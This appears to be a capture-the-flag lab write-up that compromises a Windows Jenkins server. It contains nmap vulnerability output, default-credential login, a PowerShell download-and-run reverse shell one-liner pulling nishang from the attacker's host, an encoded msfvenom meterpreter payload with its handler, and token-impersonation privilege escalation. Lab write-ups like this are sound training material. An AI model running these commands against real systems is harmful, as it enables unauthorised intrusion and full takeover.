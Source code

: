 └──╼ $nmap -A -T4 --script vuln -p- -oN initial.nmap 10.10.60.95
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 14:28 UTC
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.60.95
Host is up (0.10s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-server-header: Microsoft-IIS/7.5
| vulners: 
|   cpe:/a:microsoft:internet_information_services:7.5: 
|     	PACKETSTORM:180580	10.0	https://vulners.com/packetstorm/PACKETSTORM:180580	*EXPLOIT*
|     	MSF:AUXILIARY-DOS-WINDOWS-FTP-IIS75_FTPD_IAC_BOF-	10.0	https://vulners.com/metasploit/MSF:AUXILIARY-DOS-WINDOWS-FTP-IIS75_FTPD_IAC_BOF-	*EXPLOIT*
|     	CVE-2010-3972	10.0	https://vulners.com/cve/CVE-2010-3972
|     	SSV:20122	9.3	https://vulners.com/seebug/SSV:20122	*EXPLOIT*
|     	CVE-2010-2730	9.3	https://vulners.com/cve/CVE-2010-2730
|     	SSV:20121	4.3	https://vulners.com/seebug/SSV:20121	*EXPLOIT*
|     	PACKETSTORM:180584	4.3	https://vulners.com/packetstorm/PACKETSTORM:180584	*EXPLOIT*
|     	MSF:AUXILIARY-DOS-WINDOWS-HTTP-MS10_065_II6_ASP_DOS-	4.3	https://vulners.com/metasploit/MSF:AUXILIARY-DOS-WINDOWS-HTTP-MS10_065_II6_ASP_DOS-	*EXPLOIT*
|_    	CVE-2010-1899	4.3	https://vulners.com/cve/CVE-2010-1899
|_http-csrf: Couldn't find any CSRF vulnerabilities.
3389/tcp open  ssl/ms-wbt-server?
|_ssl-ccs-injection: No reply from server (TIMEOUT)
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|_  /robots.txt: Robots file
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find  any stored XSS vulnerabilities.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 576.27 seconds

system is blatantly running a webservice on an alt port 8080

nmap doesnt tell me about any reverse shells on 8080 so we had to try logging in

***unfortunately I navigated to the 10.10.60.95:8080/robots.txt file but didnt check the main page 10.10.60.95:8080 to see it was hosting jenkins

***the first flag was solved by googling the default uname and password for jenkins lol

***next we were instructed using nishang was a good idea so I put it on my desktop and hosted an http server in that directory to access the exploits

sudo ufw allow 8181
sudo ufw allow 4444

┌─[user@parrot]─[~/Desktop/nishang-master/Shells]
└──╼ $python3 -m http.server 8181
Serving HTTP on 0.0.0.0 port 8181 (http://0.0.0.0:8080/) ...

netcat -lvnp 4444

Initial upload to jenkins
powershell iex (New-Object Net.WebClient).DownloadString(‘http://10.23.80.154:8181/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.23.80.154 -Port 4444

flag was on user desktop

┌─[user@parrot]─[~]
└──╼ $msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.23.80.154 LPORT=4444 -f exe -o name.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of exe file: 73802 bytes
Saved as: name.exe

made msfvenom payload

[msf](Jobs:0 Agents:0) >> use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set HOST 10.23.80.154
[!] Unknown datastore option: HOST. Did you mean LHOST?
HOST => 10.23.80.154
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 10.23.80.154
LHOST => 10.23.80.154
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 4444
LPORT => 4444
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 10.23.80.154:4444 


started TCP handler for meterpreter

once in the challenge has you find a flag in the system

use incognito 

list_tokens -g

which shows the impersonate_token "BUILTIN\Administrators"  is available

 run the desired process such as the flag by migrating to a priviledged process

for example with "tasklist"

 find the PID of spooler and just

migrate 1219 

which enables me to migrate to the spooler service and then you can just 

cat C:\Windows\System32\config\root.txt

rooted the system PWNed